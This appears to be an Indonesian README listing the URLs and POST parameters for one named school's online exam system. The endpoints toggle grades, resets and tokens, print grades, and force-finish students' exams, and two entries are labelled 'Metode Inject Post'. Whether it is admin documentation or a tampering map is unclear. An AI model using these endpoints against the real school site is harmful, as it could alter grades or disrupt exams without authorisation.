 ### Nonaktifkan & Aktifkan Nilai diClient
   - Nonaktifkan Nilai Client\
   `sman1kaliwungu.sch.id/smanka/client.php?stat=0`

   - Aktifkan Nilai Client\
   `sman1kaliwungu.sch.id/smanka/client.php?stat=1`
   
### Nonaktifkan & Aktifkan Reset Siswa
   - Nonaktifkan Reset Siswa\
   `sman1kaliwungu.sch.id/smanka/matil.php?stat=0`

   - Aktifkan Reset Siswa\
   `sman1kaliwungu.sch.id/smanka/matil.php?stat=1`
   
### Nonaktifkan & Aktifkan Token
   - Nonaktifkan Token\
   `sman1kaliwungu.sch.id/smanka/mati.php?stat=0`

   - Aktifkan Reset Token\
   `sman1kaliwungu.sch.id/smanka/mati.php?stat=1`

### Cetak Nilai
   `sman1kaliwungu.sch.id/smanka/cetak.php`\
   `sman1kaliwungu.sch.id/smanka/ulanganexcel.php?kirim=(tipe soal dan id mapel)`
   `sman1kaliwungu.sch.id/smanka/pdf/ujian7.php?mapel=(id mapel)`
   `sman1kaliwungu.sch.id/smanka/pdf/ujian.php?mapel=(id mapel)`

### Cek Laporan nilai
   `sman1kaliwungu.sch.id/smanka/laporan.php`
   > Post Body
   >
   > kirim=(tipe soal dan id mapel)

### Cek Siswa belum tes
   `sman1kaliwungu.sch.id/smanka/belumtest.php`
   > Post Body
   >
   > kirim=(tipe soal dan id mapel)

### Paksa Selesai
   - Paksa Semua
      `sman1kaliwungu.sch.id/smanka/paksasemuanya.php?kirim`
   - Paksa Beberapa siswa
      `sman1kaliwungu.sch.id/smanka/paksaselesai.php?user=(no ujian/nisn)&id=(id mapel)`

### Cek Raport
   - Metode Inject Post\
      `sman1kaliwungu.sch.id/smanka/raport.php`
      > Post Body
      >
      > kirim=(tipe soal dan id mapel)
   - Metode Inject Post\
      `sman1kaliwungu.sch.id/smanka/reportnya.php`
      > Post Body
      >
      >  kirim=(tipe soal dan id mapel)

